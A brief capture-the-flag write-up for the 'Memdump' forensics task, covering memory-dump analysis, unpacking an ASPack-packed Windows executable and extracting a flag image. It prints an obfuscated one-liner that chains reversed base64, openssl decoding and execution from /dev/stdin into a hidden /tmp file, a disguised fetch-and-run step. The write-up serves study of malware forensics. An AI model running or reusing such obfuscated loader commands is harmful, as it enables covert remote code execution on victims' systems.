


# Memdump (Forensics, 400)

> We trying to capture the flag too! But that's what it left for us.

In this task we ware given a memdump2.xz containing about 132MB

During the searching file I found interesting line:
```
echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
```

After running this in console I get PE file:
```
out: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```

I found out at file was protected by ASpack:
```
00 00 00 00 00 00 10 00  2e 74 65 78 74 00 00 00  |.........text...|
00 10 00 00 00 10 00 00  00 02 00 00 00 06 00 00  |................|
00 00 00 00 00 00 00 00  00 00 00 00 60 00 00 e0  |............`...|
2e 64 61 74 61 00 00 00  00 10 00 00 00 20 00 00  |.data........ ..|
00 02 00 00 00 08 00 00  00 00 00 00 00 00 00 00  |................|
00 00 00 00 40 00 00 c0  2e 72 73 72 63 00 00 00  |....@....rsrc...|
00 10 00 00 00 30 00 00  00 0e 00 00 00 0a 00 00  |.....0..........|
00 00 00 00 00 00 00 00  00 00 00 00 40 00 00 c0  |............@...|
2e 61 73 70 61 63 6b 00  00 20 00 00 00 40 00 00  |.aspack.. ...@..|
00 12 00 00 00 18 00 00  00 00 00 00 00 00 00 00  |................|
00 00 00 00 60 00 00 e0  2e 61 64 61 74 61 00 00  |....`....adata..|
```

Ollydbg + OllyDumpEx Plugin + ImportREC let me unpack file (Unpacking was aldo passible using FUU)
In the file section .rsrc was easy to seen string "FLAG IMG", was there also png magic numbers



Separation png image from file give us flag and 400 points



    SharifCTF{39057E5702F8167AA641CA9AD7E9A15E}
